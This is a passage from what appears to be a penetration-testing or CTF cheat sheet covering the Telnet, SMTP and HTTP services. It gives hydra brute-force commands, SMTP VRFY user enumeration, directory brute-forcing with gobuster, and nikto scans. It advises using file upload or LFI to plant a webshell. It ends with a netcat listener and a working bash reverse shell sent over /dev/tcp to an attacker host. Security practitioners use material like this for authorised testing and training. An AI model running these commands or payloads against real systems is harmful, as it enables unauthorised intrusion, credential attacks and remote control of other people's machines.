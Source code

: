 ### 4) Telnet (23) — weak creds, banner info
```bash
nc -nv $IP 23
# Or brute-force with hydra (careful with lockouts)
hydra -L users.txt -P passwords.txt -t 4 telnet://$IP
```

### 5) SMTP (25) — user enumeration and info
```bash
# NSE
nmap -p25 --script smtp-commands,smtp-open-relay,smtp-enum-users $IP

# Manual VRFY
nc -nv $IP 25 << 'EOF'
HELO attacker
VRFY root
VRFY www-data
VRFY admin
QUIT
EOF

# swaks (if installed) to test relay
swaks --to test@example.com --from you@$IP --server $IP
```

### 6) HTTP/HTTPS (80/443) — content discovery, low-hanging vulns
```bash
# Quick tech fingerprint
whatweb http://$IP

# Directory bruteforce
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -t 50 -o scans/gobuster.txt

# Nikto baseline
nikto -h http://$IP -o scans/nikto.txt

# Fetch interesting files
curl -i http://$IP/robots.txt
curl -i http://$IP/.git/HEAD   # if git exposed
```
- If file upload/LFI discovered, leverage to get a webshell or read local files.
- Reverse shell (example payloads): https://www.revshells.com

Listener and basic bash reverse shell:
```bash
# Listener
nc -lvnp $LPORT

# If you can execute OS commands on target (web or otherwise):
bash -c 'bash -i >& /dev/tcp/'"$LHOST"'/'"$LPORT"' 0>&1'
```
